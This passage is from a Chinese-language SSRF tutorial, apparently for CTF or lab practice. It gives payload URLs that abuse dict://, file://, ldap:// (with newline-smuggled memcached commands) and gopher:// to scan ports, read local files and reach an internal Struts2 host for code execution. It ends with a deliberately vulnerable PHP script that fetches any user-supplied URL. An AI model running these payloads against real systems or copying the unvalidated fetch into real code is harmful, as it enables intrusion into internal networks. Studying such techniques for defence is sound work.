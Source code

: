 ### dict://协议

通常用于端口扫描

```
http://xxx.com?url=dict://127.0.0.1:port
```

### file://协议

```
http://xxx.com?url=file://var/www/html/flag.php
```

需要有文件的绝对路径

### Ldap

```
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

### Gopher协议

Gopher 是一种应用层协议，它提供提取和查看存储在远程 Web 服务器上的 Web 文档的能力。当它问世时，它是为在 IP 网络中分发、搜索和检索文档而设计的。Gopher类似于FTP,因为它通过 TCP/IP 互联网络（如 Internet）远程访问文件。但是，虽然一个 FTP 站点只存在于一台服务器上并且可以有许多不同的 FTP 站点，但实际上只有一个分布式 Gopher 文件系统。

**协议格式**

```
gopher://<host>:<port>/<gopher-path>
<port> -->默认为70
<gopher-path> -->
				<gophertype><selector>
				<gophertype><selector>%09<search>
				<gophertype><selector>%09<search>%09<gopher+_string>
```

#### 攻击内网web服务

```
测试环境
192.168.121.140存在struts2 s2-045漏洞,该漏洞通过gopher 协议提交位于header 内的poc 来完成rce。
192.168.121.135与该机器存在于同一内网中且存在ssrf漏洞
```

通过doker拉一个镜像到目标机上

后端ssrf.php

```php
<?php
$url = $_GET['url'];
$curlobj = curl_init($url);
curl_setopt($curlobj, CURLOPT_HEADER, 0);
curl_exec($curlobj);
?>
```
